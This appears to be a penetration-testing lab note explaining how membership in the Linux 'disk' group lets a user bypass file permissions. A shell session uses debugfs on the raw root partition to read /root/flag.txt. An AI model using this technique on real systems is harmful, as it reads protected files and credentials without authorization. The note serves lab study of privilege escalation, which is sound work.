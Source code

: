 # Groups

## Disk

The **`disk`** group in Linux is a **privileged system group** intended to grant **access to** **raw disk devices**, like `/dev/sda`, `/dev/sdb`, etc. It allows users to perform low-level operations on storage devices, such as partitioning, formatting, mounting/unmounting, etc.&#x20;

Membership in the `disk` group is highly sensitive — users with this access can **read or modify any data on the system**, bypassing file permissions entirely.

```bash
# Confirm group membership
ian@DANTE-NIX07:~$ id
uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)

# Identify the root fine system (/)
ian@DANTE-NIX07:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        14G  7.9G  5.2G  61% /

# Open the block service
ian@DANTE-NIX07:~$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
No entry for terminal type "xtrem";
using dumb terminal settings.

# Failed attempt to create a directory
debugfs:  mkdir test
mkdir: Filesystem opened read/only

# Read a root file 
debugfs:  cat /root/flag.txt
```
